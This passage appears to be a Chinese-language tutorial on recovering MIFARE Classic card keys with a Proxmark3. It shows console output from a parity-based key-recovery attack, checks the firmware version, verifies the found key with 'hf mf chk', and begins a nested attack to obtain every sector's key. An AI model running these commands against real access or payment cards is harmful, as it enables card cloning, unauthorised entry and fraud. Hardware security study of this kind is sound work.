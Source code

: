 ```


|diff|{nr}    |ks3|ks3^5|parity         |
+----+--------+---+-----+---------------+
| 00 |00000005| 3 |  6  |0,0,0,0,0,0,0,0|
| 20 |00000025| 7 |  2  |0,0,0,0,0,0,0,0|
| 40 |00000045| 2 |  7  |0,0,0,0,0,0,0,0|
| 60 |00000065| 0 |  5  |0,0,0,0,0,0,0,0|
| 80 |00000085| a |  f  |0,0,0,0,0,0,0,0|
| a0 |000000a5| 3 |  6  |0,0,0,0,0,0,0,0|
| c0 |000000c5| 2 |  7  |0,0,0,0,0,0,0,0|
| e0 |000000e5| 9 |  c  |0,0,0,0,0,0,0,0|
parity is all zero,try special attack!just wait for few more seconds...         
p1:0 p2:0 p3:0 key:ffffffffffff
p1:58b87 p2:61ec p3:1 key:b4c98bd73e94
p1:c6a1b p2:d983 p3:2 key:576efc88ccc7
p1:ef844 p2:106dd p3:3 key:34ed3c6092e9
p1:f7e1e p2:10fd7 p3:4 key:2de06659d60e
p1:1239c0 p2:13fa0 p3:5 key:08b7558601a1
p1:12d1b3 p2:149c9 p3:6 key:00adbba1e330
key_count:7
------------------------------------------------------------------
Key found:ffffffffffff

Found valid key:ffffffffffff
```
因为设备是~~我~~小姐姐的，固件是630之后的，所以会出现很多`#db# Mifare: Can't select card`,就放不了全部代码，查看固件命令`hw version`
```
proxmark3> hw version
#db# Prox/RFID mark3 RFID instrument
#db# bootrom: /-suspect 2016-11-09 00:59:56
#db# os: /-suspect 2016-12-08 12:45:38
#db# HF FPGA image built on 2015/03/09 at 08:41:42
#db#   Modify by Willok(willok@163.com)

#db#      proxmark3.taobao.com


uC: AT91SAM7S256 Rev B
Embedded Processor: ARM7TDMI
Nonvolatile Program Memory Size: 256K bytes
Second Nonvolatile Program Memory Size: None
Internal SRAM Size: 64K bytes
Architecture Identifier: AT91SAM7Sxx Series
Nonvolatile Program Memory Type: Embedded Flash Memory
```
**Tip:固件版本是根据固件的日期来看的**
我们可以测试一下我们拿到的密钥对不对，错误不会返回最下面那一行
```
proxmark3> hf mf chk 0 A ffffffffffff
chk key[ 0] ffffffffffff
--sector: 0, block:  0, key type:A, key count: 1
Found valid key:[ffffffffffff]
```
###### 知一求十五
获取到0扇区的密钥后我们就可以通过MFOC漏洞获取所有扇区的密钥（100%成功）
```
proxmark3> hf mf nested 1 0 A ffffffffffff 			//0是0扇区，A密钥
Testing known keys. Sector count=16
nested...
Time in nested: 4.330 (inf sec per key)

-----------------------------------------------
Iterations count: 0
```